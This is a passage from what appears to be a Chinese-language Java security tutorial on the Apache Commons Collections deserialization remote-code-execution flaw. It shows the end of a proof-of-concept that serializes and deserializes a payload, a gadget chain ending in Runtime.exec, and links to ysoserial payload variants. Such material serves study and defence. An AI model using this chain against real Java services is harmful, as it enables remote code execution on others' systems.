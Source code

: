 ```java
			byte[] bytes = baos.toByteArray();

			// 输出序列化的二进制数组
			System.out.println("Payload攻击字节数组：" + Arrays.toString(bytes));

			// 利用AnnotationInvocationHandler类生成的二进制数组创建二进制输入流对象用于反序列化操作
			ByteArrayInputStream bais = new ByteArrayInputStream(bytes);

			// 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
			ObjectInputStream in = new ObjectInputStream(bais);

			// 模拟远程的反序列化过程
			in.readObject();

			// 关闭ObjectInputStream输入流
			in.close();
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

反序列化`RCE`调用链如下：

```java
ObjectInputStream.readObject()
  ->AnnotationInvocationHandler.readObject()
  	->TransformedMap.entrySet().iterator().next().setValue()
  		->TransformedMap.checkSetValue()
        ->TransformedMap.transform()
          ->ChainedTransformer.transform()
            ->ConstantTransformer.transform()
            ->InvokerTransformer.transform()
              ->Method.invoke()
                ->Class.getMethod()
            ->InvokerTransformer.transform()
              ->Method.invoke()
                ->Runtime.getRuntime()
            ->InvokerTransformer.transform()
              ->Method.invoke()
                ->Runtime.exec()
```

`Apache Commons Collections`漏洞利用方式也不仅仅只有本节所讲解的利用`AnnotationInvocationHandler`触发`TransformedMap`构建调用链的这一种方式，[ysoserial](https://github.com/frohoff/ysoserial)还提供了多种基于`InstantiateTransformer/InvokerTransformer`构建调用链方式：[LazyMap](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)、[PriorityQueue](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2.java)、[BadAttributeValueExpException](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)、[HashSet](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)、[Hashtable](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections7.java)。